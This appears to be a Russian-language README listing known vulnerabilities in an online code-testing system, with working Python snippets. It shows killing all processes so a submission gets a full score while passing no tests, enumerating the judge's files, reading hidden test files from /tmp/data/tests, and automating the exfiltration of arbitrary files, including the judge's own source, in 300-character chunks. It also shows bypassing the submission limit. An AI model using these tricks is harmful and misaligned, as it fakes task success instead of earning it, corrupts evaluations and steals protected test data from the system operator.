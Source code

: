 # Известные уязвимости:

## Process kill:
- Набирает полный балл по любой задаче, при этом проходит 0 тестов.
```python
import psutil

for process in psutil.process_iter():
    process.kill()
```
Или
```python
import psutil

for process in psutil.process_iter():
    if process.name() == 'python3':
        process.kill()
```

## Доступ к файлам
- Список файлов можно найти [здесь](files.txt). Получен с помощью
```python
print(os.listdir(...))
```

- Идея: выгружать любой файл из тестирующей системы
- Максимальный вывод - 300 символов, приходится разбивать файл на "блоки" по 300 символов
- Чтобы не делать много посылок вручную, была написана программа, автоматизирующая процесс отправки и парсинга вердиктов

### Ограничения по отправкам
- Ограничения на одну одновременно тестирующуюся посылку - исключительно на сайте, реальное ограничение - не более 9ти одновременно тестирующихся посылок

### Тесты
- Тесты лежат в /tmp/data/tests/{номер теста} (/tmp/data/tests/001...)
Можно загружать небольшие тесты через:
```python
print(open('tmp/data/tests/001', 'r').read())
```

### Тестирующая система
- С помощью описанной выше технологии был выгружен код тестирующей системы
